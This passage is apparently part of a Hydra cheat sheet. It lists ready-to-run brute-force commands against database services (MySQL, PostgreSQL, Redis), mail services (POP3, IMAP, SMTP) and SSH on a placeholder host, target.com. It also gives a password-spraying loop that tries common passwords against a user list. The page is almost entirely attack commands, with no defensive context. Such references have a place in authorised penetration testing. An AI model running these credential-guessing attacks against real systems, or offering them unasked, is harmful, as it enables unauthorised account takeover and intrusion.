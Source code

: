 ### Database Protocols
```bash
# MySQL
hydra -L users.txt -P passwords.txt mysql://target.com:3306

# PostgreSQL
hydra -L users.txt -P passwords.txt postgresql://target.com:5432

# Redis
hydra -L users.txt -P passwords.txt redis://target.com:6379
```

### Mail Protocols
```bash
# POP3
hydra -L users.txt -P passwords.txt pop3://target.com:110

# IMAP
hydra -L users.txt -P passwords.txt imap://target.com:143

# SMTP
hydra -L users.txt -P passwords.txt smtp://target.com:25
```

## Attack Methods

### Username/Password Combinations
```bash
# Separate user and password lists
hydra -L users.txt -P passwords.txt ssh://target.com

# Single user with password list
hydra -l admin -P passwords.txt ssh://target.com

# Username list with single password
hydra -L users.txt -p password ssh://target.com

# Single user and password
hydra -l admin -p password ssh://target.com
```

### Password Spraying
```bash
# Try one password against all users
hydra -L users.txt -p password123 ssh://target.com

# Try common passwords against all users
for pass in password123 admin123 123456; do
    hydra -L users.txt -p $pass ssh://target.com
done
```
